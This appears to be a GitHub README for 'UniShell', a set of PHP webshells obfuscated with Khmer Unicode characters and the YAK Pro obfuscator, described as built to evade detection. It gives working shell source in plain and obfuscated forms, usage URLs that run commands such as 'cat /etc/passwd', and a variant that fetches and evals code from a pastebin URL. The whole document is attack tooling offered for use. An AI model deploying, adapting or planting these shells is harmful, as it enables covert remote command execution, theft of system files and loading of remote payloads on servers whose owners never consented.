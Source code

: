 # UniShell
Unishell is a family of php webshells that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and combinded with YAK pro Php Obfuscator to be more undetectable and silently.

### None-Obfuscate
1. Soriya
```php
<?php $ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); ?>`
```
**Note:** For the options `ល` is the password `ធិ៤០៤` which mean you can change the string with your password.

### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

**For example**, we want to show the /etc/passwd in the system so we use options us below:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://i.imgur.com/YS1JMHE.png)

2. Kolab
```php
`<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>`
```
### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command; `ដ` for Url;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

***For example***, we want to use the PHP Web Shell from another source in the target system, so it will be:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG`

### Screenshot-2

![handler](https://imgur.com/WCfChGe.png)

### Screenshot-3

![handler](https://imgur.com/HSb9rbd.png)

### Obfuscated
In this code below i used yak to obfuscated it.

1. Soriya
```php
`<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>`
```
2. Kolab
```php
`<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>`
```
### License
If you want to use or modify it, just give me a credit or some donation. xD
